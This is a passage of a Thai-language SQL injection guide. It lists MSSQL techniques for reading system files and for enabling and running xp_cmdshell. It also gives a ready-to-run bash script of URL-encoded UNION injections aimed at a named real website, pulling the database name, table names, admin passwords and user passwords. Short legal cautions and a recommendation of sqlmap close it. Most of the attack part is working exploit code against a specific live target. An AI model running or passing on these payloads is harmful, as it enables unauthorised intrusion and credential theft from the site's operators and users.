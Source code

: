 ```sql
```

### Advanced Techniques
```sql
-- Read files (if permissions allow)
SELECT * FROM OPENROWSET(BULK 'C:\windows\system32\drivers\etc\hosts', SINGLE_CLOB) AS x

-- Execute commands (if xp_cmdshell enabled)
EXEC xp_cmdshell 'dir'

-- Enable xp_cmdshell (if sysadmin)
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

## ตัวอย่างการใช้งานจริง

### Script สำหรับดึงข้อมูล Admin
```bash
#!/bin/bash

BASE_URL="https://member.panama8888b.com/public/js/v2/app.js"

echo "[+] Getting database name..."
curl -s "${BASE_URL}?v=25.1%29%29%20UNION%20SELECT%20DB_NAME%28%29%20--" | head -20

echo -e "\n[+] Getting table names..."
curl -s "${BASE_URL}?v=25.1%29%29%20UNION%20SELECT%20name%20FROM%20sysobjects%20WHERE%20xtype%3D%27U%27%20--" | head -20

echo -e "\n[+] Getting admin data..."
curl -s "${BASE_URL}?v=25.1%29%29%20UNION%20SELECT%20admin_name%2BCHAR%2858%29%2Badmin_password%20FROM%20admins%20--" | head -20

echo -e "\n[+] Getting user data..."
curl -s "${BASE_URL}?v=25.1%29%29%20UNION%20SELECT%20username%2BCHAR%2858%29%2Bpassword%20FROM%20users%20--" | head -20
```

## ข้อควรระวัง

1. **Legal:** ทำการทดสอบเฉพาะระบบที่ได้รับอนุญาตเท่านั้น
2. **Performance:** SQL injection อาจทำให้ระบบช้าลง
3. **Detection:** อาจถูก WAF หรือ IDS ตรวจจับ
4. **Data Integrity:** ระวังไม่ให้ทำลายข้อมูล

## สรุป

ใช้วิธีการข้างต้นเพื่อเชื่อมต่อและดึงข้อมูลจากฐานข้อมูลผ่านช่องโหว่ SQL Injection ที่พบเจอ แนะนำให้ใช้ sqlmap เป็นอันดับแรกเพราะมีความสามารถครบถ้วนและใช้งานง่าย

**หมายเหตุ:** การทดสอบนี้ควรทำในสภาพแวดล้อมที่ควบคุมได้และได้รับอนุญาตเท่านั้น